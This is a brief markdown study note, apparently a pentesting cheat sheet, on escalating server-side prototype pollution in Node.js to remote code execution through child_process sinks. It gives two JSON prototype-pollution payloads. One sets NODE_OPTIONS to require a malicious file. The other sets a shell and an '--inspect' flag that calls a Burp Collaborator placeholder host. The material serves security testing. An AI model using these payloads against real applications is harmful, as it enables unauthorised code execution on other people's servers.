# RCE via Vulnerable Requests

There are a number of potential command execution sinks in Node, many of which occur in the `child_process` module. The best way to identify these requests is by polluting the prototype with a payload that triggers an interaction with **Burp Collaborator** when called.

The `NODE_OPTIONS` environment variable enables you to define a string of command-line arguments that should be used by default whenever you start a new Node process. As this is also a property on the `env` object, you can potentially control this via prototype pollution if it is undefined.

```json
"__proto__": {
    "env": {
	    "NODE_OPTIONS": "--require /tmp/malicious.js"
	}
}
```

Some of Node's functions for creating new child processes accept an optional `shell` property. We can abuse this together with the **Burp Collaborator** like:

```json
"__proto__": { 
	"shell":"node", 
	"NODE_OPTIONS":"--inspect=YOUR-COLLABORATOR-ID.oastify.com\"\".oastify\"\".com" }
```
